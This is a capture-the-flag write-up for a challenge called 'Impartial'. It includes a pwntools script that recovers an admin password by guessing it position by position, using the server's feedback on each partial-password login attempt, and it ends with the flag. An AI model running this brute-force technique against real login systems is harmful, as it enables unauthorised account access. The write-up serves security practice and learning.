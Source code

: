 # Impartial

Author: [roerohan](https://github.com/roerohan)

# Requirements

- Python

# Source

```
Check out the terminal-interface for this new company! Can you uncover any secrets?

Connect with:
nc jh2i.com 50026
```

# Exploitation

Everytime you ask try to log in as admin, it asks you for 3 letters of the password.

```
Impartial Advice and Consulting
    . . . we will help you put the pieces together!

1. About
2. Login
3. Register
4. Contact
?. Exit

> 2

Please enter a username to log in.

Username: admin

For your security, please only enter a partial password.
To protect your account from hackers, enter only the characters
at position 13, 32, and 10 (separated by spaces).

Password: 
```

You can create a map of all characters and the possibilities of the character in that position. Once it is rejected, remove that possibility, and once it's correct, remove all other possibilities. Here's a script:

```python
from pwn import remote
import re
import string

r = remote("jh2i.com", 50026)

flag = [''] + list('flag{') + ['?']*50

letters = list(string.ascii_lowercase + '_}1234567890')
tries = {i: letters for i in range(1, 51)}


# flag = [''] + list('flag{partial?pass?ord?puz?le?pieces????????????????????')
# flag{partial_password_puzzle_pieces}
for i in range(1, len(flag)):
    if flag[i] == '?': continue
    tries[i] = [flag[i]]

rec = r.recvuntil(">").decode()
print(rec, end=" ")

while True:
    res = b"2"
    r.sendline(res)
    print(res)

    rec = r.recvuntil("Username:").decode()
    print(rec, end=" ")

    res = b"admin"
    r.sendline(res)
    print(res)

    rec = r.recvuntil("Password:").decode()
    print(rec, end=" ")

    indices = [int(i) for i in re.findall(r'\d+', rec)]

    res = []

    for index in indices:
        res.append(tries[index][0])

    res = ' '.join(res)
    print(res)
    r.sendline(res)

    rec = r.recvuntil('>').decode()
    print(rec)

    if '1. Judge' in rec:
        r.sendline(b'3')
        print(''.join(flag))
        continue

    x = rec.split('1. About')[0].strip().split('\n')

    for i in range(len(x)):
        t = tries[indices[i]]
        if 'WRONG' in x[i]:
            tries[indices[i]] = t[1:]
        else:
            tries[indices[i]] = [t[0]]
            flag[indices[i]] = t[0]
    print(''.join(flag))
```

When I ran the script for a while, I got this much of the flag:

```
$ python script.py
...
flag{partial?pass?ord?puz?le?pieces????????????????????
```

From here, you can possibly guess the flag.
<br />

The flag is:

```
flag{partial_password_puzzle_pieces}
```
